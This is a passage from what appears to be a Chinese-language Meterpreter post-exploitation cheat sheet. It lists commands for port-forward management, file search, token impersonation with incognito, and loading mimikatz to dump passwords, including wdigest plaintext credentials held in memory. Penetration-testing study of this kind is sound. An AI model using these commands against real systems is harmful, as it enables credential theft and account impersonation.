 ```
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码
wdigest    \\用户储存在内存里的明文密码。
```
![](img/3.png)
''x
